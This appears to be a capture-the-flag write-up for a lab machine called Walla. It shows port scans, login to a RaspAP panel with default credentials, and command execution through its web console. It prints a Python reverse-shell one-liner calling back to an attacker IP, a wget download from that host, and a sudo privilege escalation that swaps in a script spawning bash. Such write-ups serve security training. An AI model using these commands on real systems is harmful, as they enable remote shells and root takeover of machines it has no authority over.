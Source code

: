 ```yaml
---
description: 12/05/2022
---
```


# Walla (Intermediate)

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Issuer: commonName=walla
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T18:26:36
| Not valid after:  2030-09-15T18:26:36
| MD5:   097cbda176ab9b73c8ef68ab84e9a055
|_SHA-1: 6c4bfee30bd6d9102ef9f81a3a4172d831bdbaac
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B5F9F8F2263315029AD7A81420E6CC2D
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.53
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
PORT     STATE         SERVICE  VERSION
53/udp   open|filtered domain
67/udp   open|filtered dhcps
631/udp  open|filtered ipp
5353/udp open|filtered zeroconf
```

Notes:

* SSH open on 42042, 422, and 22 is open
* Telnet 23 is open -- Strange
* SMTP 25 is open
* <mark style="color:yellow;">HTTP 8091 is open -- Lighttpd 1.4.53</mark>
  * RaspAP

## Enumeration

### Port 8091 - HTTP (Lighttpd--RaspAP)

Visual:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption><p>admin:secret (Default Credentials)</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (1) (6).png" alt=""><figcaption><p>Discovering Default Credentials</p></figcaption></figure>

* We now have access to the RaspAP login page!

## Exploitation

* [http://192.168.66.97:8091/index.php?page=system\_info#console](http://192.168.66.97:8091/index.php?page=system\_info#console)
* Upon navigating to the following site, you can execute commands in the following window/web shell!!!

{% embed url="https://github.com/gerbsec/CVE-2020-24572-POC" %}
Not needed, but cool
{% endembed %}

Start nc Listener:

```
sudo rlwrap nc -lnvp 42042
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192
.168.49.66",42042));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<figure><img src="../../../.gitbook/assets/image (13) (6).png" alt=""><figcaption><p>Utilizing exploit to craft us a reverse shell!</p></figcaption></figure>

* Or you could simply use revshells

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../.gitbook/assets/image (7) (9).png" alt=""><figcaption><p>RaspAP Webshell</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Landed as www-data</p></figcaption></figure>

## Privilege Escalation

Sudo -l Enumeration:

<figure><img src="../../../.gitbook/assets/image (2) (2) (3).png" alt=""><figcaption><p>Interesting file</p></figcaption></figure>

### Local enumeration

Linpeas:

```
/etc/mysql/mariadb.cnf


╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /etc/aliases.db: Berkeley DB (Hash, version 9, native byte-order)
```

### PrivEsc vector

<mark style="color:yellow;">sudo /usr/bin/python /home/walter/wifi\_reset.py</mark>

Remove wifi\_reset.py:

{% code overflow="wrap" %}
```
rm -f /home/walter/wifi_reset.py
```
{% endcode %}

Replace with wifi\_reset.py:

```
import os

os.system('/bin/bash')
```

Transfer to Victim:

```
cd /home/walter

wget 192.168.49.66/wifi_reset.py
```

Execute Binary:

```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

## Proofs

<figure><img src="../../../.gitbook/assets/image (4) (2).png" alt=""><figcaption><p>Root</p></figcaption></figure>

